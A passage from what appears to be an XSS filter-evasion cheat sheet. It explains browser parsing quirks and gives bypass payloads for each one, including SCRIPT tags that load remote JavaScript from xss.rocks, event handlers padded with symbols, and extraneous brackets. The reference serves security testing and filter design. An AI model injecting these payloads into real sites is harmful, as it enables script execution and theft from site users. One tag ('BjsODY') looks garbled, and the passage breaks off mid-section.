 ## Spaces and Meta Chars Before the JavaScript in Images for XSS
- This is useful if the pattern match doesn’t take into account spaces in the word javascript: -which is correct since that won’t render- and makes the false assumption that you can’t have a space between the quote and the javascript: keyword.
- The actual reality is you can have any char from 1-32 in decimal:

```js
<IMG SRC=" &#14; javascript:alert('XSS');">
```

## Non-alpha-non-digit XSS
- The Firefox `HTML parser` assumes a non-alpha-non-digit is not valid after an HTML keyword and therefor considers it to be a whitespace or non-valid token after an HTML tag.
- The problem is that some XSS filters assume that the tag they are looking for is broken up by whitespace.
- For example

```js
\<SCRIPT\\s != \<SCRIPT/XSS\\s:

<SCRIPT/XSS SRC="http://xss.rocks/xss.js"></SCRIPT>
```

Based on the same idea as above, however,expanded on it, using Rnake fuzzer. The Gecko rendering engine allows for any character other than letters, numbers or encapsulation chars (like quotes, angle brackets, etc…) between the event handler and the equals sign, making it easier to bypass cross site scripting blocks. Note that this also applies to the grave accent char as seen here:

```
<BjsODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>
```

Yair Amit brought this to my attention that there is slightly different behavior between the IE and Gecko rendering engines that allows just a slash between the tag and the parameter with no spaces. This could be useful if the system does not allow spaces.

```js
<SCRIPT/SRC="http://xss.rocks/xss.js"></SCRIPT>
```

## Extraneous Open Brackets
Submitted by Franz Sedlmaier, this XSS vector could defeat certain detection engines that work by first using matching pairs of open and close angle brackets and then by doing a comparison of the tag inside, instead of a more efficient algorythm like Boyer-Moore that looks for entire string matches of the open angle bracket and associated tag (post de-obfuscation, of course). The double slash comments out the ending extraneous bracket to supress a JavaScript error:

```js
<<SCRIPT>alert("XSS");//\<</SCRIPT>
```

## No Closing Script Tags
In Firefox and Netscape 8.1 in the Gecko rendering engine mode you don’t actually need the \></SCRIPT> portion of this Cross Site Scripting vector. Firefox assumes it’s safe to close the HTML tag and add closing tags for you. How thoughtful! Unlike the next one, which doesn’t effect Firefox, this does not require any additional HTML below it. You can add quotes if you need to, but they’re not needed generally, although beware, I have no idea what the HTML will end up looking like once this is injected:
